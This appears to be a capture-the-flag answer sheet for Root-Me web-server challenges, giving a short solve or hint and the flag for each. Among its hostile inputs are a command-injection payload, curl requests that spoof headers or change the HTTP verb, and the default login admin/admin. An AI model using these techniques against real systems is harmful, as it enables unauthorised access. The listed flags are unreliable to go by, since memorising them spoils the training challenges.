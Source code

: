 # web-server

## HTML - Code source
hint: inspecter élément
- nZ^&@q5&sjJHev0 

## HTTP - Open redirect

solve:  curl -G http://challenge01.root-me.org/web-serveur/ch52/ -d "url=https://google.fr&h=0edf27c83d4aa4699c0625d27be0e371" -o solve.txt 

- e6f8a530811d5a479812d7b82fc1a5c5 


## HTTP - User-agent


solve: curl -H "User-Agent: admin" http://challenge01.root-me.org/web-serveur/ch2/

- rr$Li9%L34qd1AAe27


## Mot de passe faible

solve: admin/admin

- admin

## PHP - Injection de commande

solve: | cat index.php 

- S3rv1ceP1n9Sup3rS3cure

## Fichier de sauvegarde

solve: index.php~ 

- OCCY9AcNm1tj

## HTTP - Directory indexing

hint: admin/backup/admin.txt

- LINUX

## HTTP - Headers
hint: python headers.py ou curl --header "Header-RootMe-Admin:admin" http://challenge01.root-me.org/web-serveur/ch5/

- HeadersMayBeUseful

## HTTP - Post
hint: supprimer le js et modifier le score

- H7tp_h4s_N0_s3Cr37S_F0r_y0U

## HTTP - Improper redirect
hint: curl http://challenge01.root-me.org/web-serveur/ch32/

- ExecutionAfterRedirectIsBad

## HTTP - Verb tampering

hint: curl -X PUT http://challenge01.root-me.org/web-serveur/ch8/

- a23e$dme96d3saez$$prap